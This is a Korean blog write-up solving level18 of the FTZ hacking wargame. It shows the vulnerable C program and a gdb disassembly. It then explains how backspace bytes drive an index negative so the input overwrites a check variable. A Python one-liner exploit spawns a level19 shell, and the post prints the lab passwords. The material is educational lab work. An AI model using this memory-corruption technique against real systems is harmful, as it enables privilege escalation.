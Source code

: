 ```yaml
---
title: "[FTZ] level18 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level18 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level18 풀이
{: .notice--warning}


# 문제

계정 : level18/why did you do it

**hint**
```
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}

```

# 풀이

이번 문제는 특이하게 string 변수가 가장 먼저 선언되어 있습니다. 대략적으로 스택을 그려보면 다음과 같습니다.

```s
string[100]
check
x
count
...
```

이렇게 스택이 구성되면 일반적으로는 string에 쓰기만 해서는 다른 변수를 덮을 수가 없습니다. 하지만 이번 문제에서는 string의 인덱싱을 count 변수로 하며, 이 count 변수가 음수가 될 수 있다는 점이 포인트입니다.

즉 count = -4 일때, string[count]로 접근하면 check를 포함한 다른 변수들에 접근이 가능해 집니다.

gdb로 먼저 스택을 분석합니다.

```sh
[level18@ftz level18]$ gdb -q attackme
(no debugging symbols found)...(gdb)
(gdb)
(gdb) set disas intel
(gdb) disass main
Dump of assembler code for function main:
0x08048550 <main+0>:    push   ebp
0x08048551 <main+1>:    mov    ebp,esp
0x08048553 <main+3>:    sub    esp,0x100
0x08048559 <main+9>:    push   edi
0x0804855a <main+10>:   push   esi
0x0804855b <main+11>:   push   ebx
0x0804855c <main+12>:   mov    DWORD PTR [ebp-108],0x0  //x=0
0x08048563 <main+19>:   mov    DWORD PTR [ebp-112],0x0  //count =0
0x0804856a <main+26>:   push   0x8048800
0x0804856f <main+31>:   call   0x8048470 <printf>
0x08048574 <main+36>:   add    esp,0x4
0x08048577 <main+39>:   mov    eax,ds:0x804993c
0x0804857c <main+44>:   mov    DWORD PTR [ebp-252],eax
0x08048582 <main+50>:   mov    ecx,DWORD PTR [ebp-252]
0x08048588 <main+56>:   push   ecx
0x08048589 <main+57>:   call   0x8048430 <fflush>
0x0804858e <main+62>:   add    esp,0x4
0x08048591 <main+65>:   jmp    0x8048598 <main+72>
0x08048593 <main+67>:   jmp    0x8048775 <main+549>
0x08048598 <main+72>:   cmp    DWORD PTR [ebp-112],0x63 // count<100 비교
0x0804859c <main+76>:   jle    0x80485ab <main+91>
0x0804859e <main+78>:   push   0x8048815
0x080485a3 <main+83>:   call   0x8048470 <printf>
0x080485a8 <main+88>:   add    esp,0x4
0x080485ab <main+91>:   cmp    DWORD PTR [ebp-104],0xdeadbeef // check = 0xdeadbeef 비교
0x080485b2 <main+98>:   jne    0x80485c0 <main+112>
0x080485b4 <main+100>:  call   0x8048780 <shellout>
0x080485b9 <main+105>:  jmp    0x8048770 <main+544>
0x080485be <main+110>:  mov    esi,esi
0x080485c0 <main+112>:  lea    edi,[ebp-240]

... 생략
```

위의 변수들을 보면 스택이 다음과 같다는 걸 알 수 있습니다.

```s
string (100byte) // ebp-100
check (4byte)    // ebp-104
x (4byte)        // ebp-108
count (4byte)    // ebp-112
```

따라서 count 값을 -4로 만들어서 메모리에 접근하면, check 변수에 접근할 수 있습니다.

코드를 보면 '\x08'일때 count가 1씩 감소하므로 '\x08'을 4번 입력한 뒤에, check값을 넣어주면 됩니다.

```sh
[level18@ftz level18]$ (python -c 'print("\x08"*4 + "\xef\xbe\xad\xde")';cat) | ./attackme
Enter your command:
id
uid=3099(level19) gid=3098(level18) groups=3098(level18)

my-pass
Level19 Password is "swimming in pink".
```

쉘을 획득했습니다.